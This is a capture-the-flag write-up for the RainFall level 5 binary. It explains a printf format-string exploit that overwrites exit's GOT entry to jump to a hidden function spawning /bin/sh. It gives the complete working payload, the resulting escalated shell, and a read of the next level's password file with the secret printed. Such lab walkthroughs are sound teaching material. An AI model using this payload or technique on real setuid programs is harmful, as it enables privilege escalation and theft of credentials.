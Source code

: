 # Level5

```nasm
(gdb) disas main
Dump of assembler code for function main:                     // Calls n
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```nasm
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218                     // Allocate a 0x218 (536) bytes stack
   0x080484cb <+9>:     mov    eax,ds:0x8049848              // Move into eax stdin
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax       // Put that as third argument
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200     // Put 0x200 as second argument
   0x080484dc <+26>:    lea    eax,[ebp-0x208]               // Put a part of the stack in eax
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax           // Put that as first argument
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>         // Call fgets
   0x080484ea <+40>:    lea    eax,[ebp-0x208]               // Load into eax what is in the stack now
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax           // Put that back on top of the stack as first argument
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>        // Call printf
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1           // Set 1 as exit code
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

```nasm
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18                       // Allocate a 24 bytes stack
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0      // Put as first argument "/bin/sh"
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>         // Call system
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1            // Set 1 as exit code
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

We once again have a `fgets` followed by a `printf` but this time the `system` call is hidden in the function `o` that isn’t called anywhere. 

The goal is probably to use a format string exploit to launch the `o` function.

We cannot directly change the return address of main to make it point to the `o` function since there is a call to `exit` and no call to `ret` 

When the program calls `exit` or `printf` it does not directly jump to the function itself : it jumps to `printf@plt` or `exit@plt`, `plt` stands for “P**rocedure Linkage Table**” :

> The Procedure Linkage Table (PLT) is a mechanism used in dynamically linked programs to facilitate function calls to external libraries, such
as libc. When a program makes a function call to a dynamically linked function (e.g., `printf`), the code in the PLT is responsible
for resolving the address of the function and transferring control to it. The PLT is part of the dynamic linking process, allowing programs to
call functions from shared libraries without knowing their addresses at compile time.
> 

In short, a small piece of code that makes the link between our program and the external function, wherever it is actually located.

The PLT then looks at the “**Global Offset Table**”, a table that contains the actual memory addresses of the functions we want to call.

> The Global Offset Table (GOT) is a table of pointers, typically within the executable or shared library, that holds the addresses of global variables or functions. When a program is executed, the linker resolves these addresses dynamically, allowing functions and variables to be accessed across different parts of the program or even across different modules.
> 

The key word here is dynamic. We cannot directly change the code and replace the call to `exit` with a call to `o` since it is in read only. We cannot change the PLT either, this code is also read-only and already processed. However, since the GOT is read dynamically, it means it can change at any time, and we can try to modify it, changing the supposed address of `exit` to the address of `o`.

In order to do that, we need to find out where does the actual address of `exit` is in the GOT.

```nasm
level5@RainFall:~$ gdb -q ./level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) p exit
$1 = {<text variable, no debug info>} 0x80483d0 <exit@plt>
```

With `gdb` , we can find an address for `exit`, but that actually corresponds to the address of the PLT that makes the link with `exit`

We can then use the option `x` in `gdb`, that prints whatever is at a given address, with the format specifier `i` , that outputs it as a machine instruction (assembly) :

```nasm
(gdb) x/i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
```

This gives us the actual address of `exit`.

So now, just like in previous levels, we can use the `printf` format exploit to find out where we need to change memory :

```nasm
level5@RainFall:~$ echo -e "\x38\x98\x04\x08AAAA%x %x %x %x %x %x %x %x %x %x %x %x" | ./level5
8AAAA200 b7fd1ac0 b7ff37d0 8049838 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

Our payload appears in the 4th position (starting from 0), that’s the one we need to change to `o`'s address (`0x080484a4`, or in decimal : **134513828**). 

We also need to subtract the size of the address (4) so the number of characters we need to write is **134513824.**

Using our usual approach :

```bash
level5@RainFall:~$ (echo -e "\x38\x98\x04\x08%134513824c%4\$n"; cat) | ./level5
```

After a while we end up with a shell !

```bash
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```